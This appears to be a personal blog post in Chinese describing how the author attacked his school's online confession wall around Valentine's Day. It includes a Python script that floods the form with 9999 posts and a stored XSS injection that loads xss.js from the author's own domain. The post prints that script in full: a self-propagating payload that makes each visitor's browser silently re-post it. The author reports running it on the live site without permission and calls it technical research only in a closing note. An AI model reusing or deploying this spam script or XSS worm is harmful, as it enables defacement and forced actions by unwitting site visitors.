 ```yaml
---
layout: post
title: "XSS让每个人都帮我表白"
subtitle: "单生狗的碎碎念（无对象技术测试）"
date: 2015-02-06 09:22
comments: true
author: MewX
published: true
categories: [web, python]
---
```


最近觉得学校的表白墙很好玩，而且人气也挺不错。有表白排行之类的有趣功能，经常能看到人刷屏、刷排行之类的。

14号不就是情人节了嘛，最近肯定是表白人气最旺的时段了，妥妥地来凑个热闹。

但是光是自己表白没啥意思啊，比如说我看到系统挺渣，我就用python写了个脚本一直刷，刷了9999次对吧。（下面这段代码把action地址给隐去了 =。=）

    def tryPost( receiver, sender, msg):
        postData = 'save=1&book_title='+urllib.quote(receiver)+'&book_name='
                +urllib.quote(sender)+'&book_body='+urllib.quote(msg)
                +'&submit=%E5%8F%91%E5%B8%83';
        #print(postData);
        req = urllib2.Request(BaseURL,postData);
        req.add_header('Referer', BaseURL);
        urllib2.urlopen(req);
        return;

    for i in range(0,9999):
        tryPost('P^2','Anonymous','You know who.');

效果图如下，直接给刷了9999次。

<center><a href="{{ site.cdn }}imgs/201502/01-9999-loves.jpeg" target="_blank"><img src="{{ site.cdn }}imgs/201502/01-9999-loves.jpeg" style="max-width:100%;"/></a></center>

看代码的时候应该可以看到，这表单竟然提交了一个submit元素上去，真是用(sang)心(xin)良(bing)苦(kuang)啊，为后面XSS增加了难度呢！

----

下面来XSS。之前说了这个表白留言系统超级渣啊，没有验证码、没有XSS过滤呢。我这边可以插入任意html代码的。

现在我要做到的目标就是让每个访问这个页面的人帮我向target表白！

**这部分的技术难点：**

1. 嵌入XSS代码；
2. XSS代码长度限制在200以内；（测试发现数据库的varchar长度是200字节，html进行POST的时候会进行转义编码即“汉字”会变成“%XX%XX%XX”）
3. 因为一页可能会有多遍script载入，所以在载入多遍script的时候需要保证效果只有一次，不然就直接刷屏了，太没节操了；
4. POST返回值要无视掉，不然会接收到一段alert代码，影响用户体验；
5. 使用jQuery在网页顶部插入表白图片，这部分用纯JS的话很麻烦，默认只能appendChild添加在末尾；
6. 因为有一个元素叫submit，所以不能使用form.submit()，否则会触发object is not an method错误

----

**提交的XSS代码：**

    <script type="text/javascript" src="http://mewx.org/js/xss.js"></script>

上面这部分代码已经压缩到最短了，本来准备在前面添加一段图片的，结果直接就超长了，图片添加挪到xss.js里面了。

P.S. 刚刚push上来发现自己网页被挂上那个脚本了 \_(:3」∠)\_ 好吧。最后检查时少了个问号。。

**XSS.JS：**

    // 省略 jQuery 代码
    $(document).ready(function(){
        var obj = document.getElementById("LoveX");
        if(obj) return;

        $("body:first").prepend("<img id=\"LoveX\" src=\"http://www.dwz.cn/XXXXX\" style=\"width:350px;height:350px\"/>");
        //$(".LoveX").insertAfter("header");

        // Ajax
        var params = {save:1,book_title:'此处打码',book_name:'MewX',book_body:'<script type=\"text/javascript\" src=\"http://mewx.org/js/xss.js\"></script>',submit:'发布'};
        url = 'http://xxxxxxxxx.sinaapp.com/add_express.php';
        $.post(url,params,function(data){
            // ignore data
        });
    })

最终效果：如图，每个访问该页面的人都会帮我提交一份表白啦！~~

<center><a href="{{ site.cdn }}imgs/201502/02-XSS-express-love.jpeg" target="_blank"><img src="{{ site.cdn }}imgs/201502/02-XSS-express-love.jpeg" style="max-width:100%;"/></a></center>

不知到2月14号会有多少访问量呢？哈哈，刚刚看到有人和我的脚本对刷！！！

----

补：以上纯属闹剧，表白对象与我也毫无干系 \_(:з」∠)\_ 各位借此能了解一下XSS便好。以上恶意举动仅作技术研究。
